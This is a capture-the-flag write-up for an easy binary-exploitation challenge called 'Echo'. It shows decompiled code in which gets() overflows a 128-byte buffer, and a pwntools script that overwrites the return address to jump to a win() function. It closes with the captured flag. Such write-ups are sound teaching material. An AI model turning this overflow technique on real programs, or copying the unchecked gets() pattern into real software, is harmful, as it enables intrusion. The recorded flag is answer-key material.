 ## Name: Echo
#### Author: @awesome10billion
#### Category: pwn
#### Difficulty: easy
#### Description: I made my own echo program. my own echo program.


## Procedure
The echo binary has the following function
```
0x0000000000401216  win
0x000000000040128e  init
0x00000000004012b7  main
```

We can see this is ```64bit``` file.
```
─$ file echo         
echo: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ba71fb7825c88b04e13afe6dcc11ba9113394f12, for GNU/Linux 3.2.0, not stripped
```

Using [dogbolt](https://dogbolt.org), we can see the following code for ```main``` and ```win``` functions
```
undefined8 main(EVP_PKEY_CTX *param_1)

{
  char local_88 [128];
  
  init(param_1);
  puts("Give me some text and I\'ll echo it back to you: ");
  gets(local_88);
  puts(local_88);
  return 0;
}
```

```
void win(void)

{
  int iVar1;
  FILE *__stream;
  char local_11;
  
  __stream = fopen("flag.txt","r");
  if (__stream != (FILE *)0x0) goto LAB_0040126a;
  puts("Please create \'flag.txt\' in this directory with your own debugging flag.");
  FUN_00401120(0);
  do {
    putchar((int)local_11);
LAB_0040126a:
    iVar1 = fgetc(__stream);
    local_11 = (char)iVar1;
  } while (local_11 != -1);
  fclose(__stream);
  return;
}

```

So, basically we just need to call the ```win``` function, using the address ```0x0000000000401216```. the offset for this is ```128 + 8``` to be able to override the ret.

```
from pwn import *

context(arch='amd64',os='linux',log_level='debug')
io = remote('challenge.ctf.games',31989)
win = p64(0x0000000000401216)

offset = 136

payload = offset * b'A' + win

io.sendlineafter(b'to you: ',payload)
print(io.recv(1024))
io.interactive()%
```


<img width="1176" alt="Screenshot 2025-03-05 at 8 13 56 AM" src="https://github.com/user-attachments/assets/380c1bd2-ae24-493d-90d3-9581dd7fd5d9" />


flag ```flag{4f4293237e37d06d733772a087299f17}```
